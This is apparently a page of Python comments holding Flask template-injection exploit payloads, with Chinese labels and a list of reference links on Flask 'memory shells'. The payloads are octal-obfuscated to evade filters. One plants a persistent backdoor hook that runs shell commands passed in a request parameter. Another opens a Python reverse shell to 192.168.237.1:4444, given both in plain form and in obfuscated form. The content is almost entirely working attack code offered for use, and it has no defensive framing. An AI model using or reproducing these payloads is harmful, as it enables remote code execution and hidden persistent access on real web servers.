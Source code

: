 ```python
# 1['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\163\137\137'][0]['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\154\163')['\162\145\141\144']()
# 测试可利用索引
# ()['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\163\137\137'][0]['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]

# 八进制打入内存马版本
# ''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\137\137\142\165\151\154\164\151\156\163\137\137']['\145\170\145\143']("\163\171\163.\155\157\144\165\154\145\163['\137\137\155\141\151\156\137\137'].\137\137\144\151\143\164\137\137['\141\160\160'].\142\145\146\157\162\145\137\162\145\161\165\145\163\164\137\146\165\156\143\163.\163\145\164\144\145\146\141\165\154\164(\116\157\156\145, []).\141\160\160\145\156\144(\154\141\155\142\144\141: \137\137\151\155\160\157\162\164\137\137('\157\163').\160\157\160\145\156(\137\137\151\155\160\157\162\164\137\137('\146\154\141\163\153').\162\145\161\165\145\163\164.\141\162\147\163.\147\145\164('\141')).\162\145\141\144())")

# 反弹shell
# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.237.1",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
# ''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[132]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\160\171\164\150\157\156 -\143 \'\151\155\160\157\162\164 \157\163,\160\164\171,\163\157\143\153\145\164;\163=\163\157\143\153\145\164.\163\157\143\153\145\164();\163.\143\157\156\156\145\143\164(("\061\071\062.\061\066\070.\062\063\067.\061",\064\064\064\064));[\157\163.\144\165\160\062(\163.\146\151\154\145\156\157(),\146)\146\157\162 \146 \151\156(\060,\061,\062)];\160\164\171.\163\160\141\167\156("\163\150")\'')['\162\145\141\144']()
```

参考、致谢：

- [浅析flask内存马](https://baozongwi.xyz/2024/09/02/%E6%B5%85%E6%9E%90flask%E5%86%85%E5%AD%98%E9%A9%AC/#0x01-%E5%89%8D%E8%A8%80)
- [新版FLASK下python内存马的研究](https://www.cnblogs.com/gxngxngxn/p/18181936)
- [python-Flask内存马](https://badboy.plus/2024/08/16/python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/)
- [Python Flask内存马的另辟途径](https://xz.aliyun.com/t/14421?time__1311=GqAxuWemqeq05DK5qCqiKP0IKPI5WOT4D)
- [浅析Python Flask内存马](http://www.mi1k7ea.com/2021/04/07/%E6%B5%85%E6%9E%90Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/)
- [Flask中四个好用的装饰器](https://www.51cto.com/article/788099.html)
- [flask中的常用装饰器](https://blog.csdn.net/weixin_41777118/article/details/131970557)
- [Python Flask常见的请求钩子函数](https://blog.csdn.net/zhangvalue/article/details/93740580)
- [python-Flask内存马](https://badboy.plus/2024/08/16/python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/)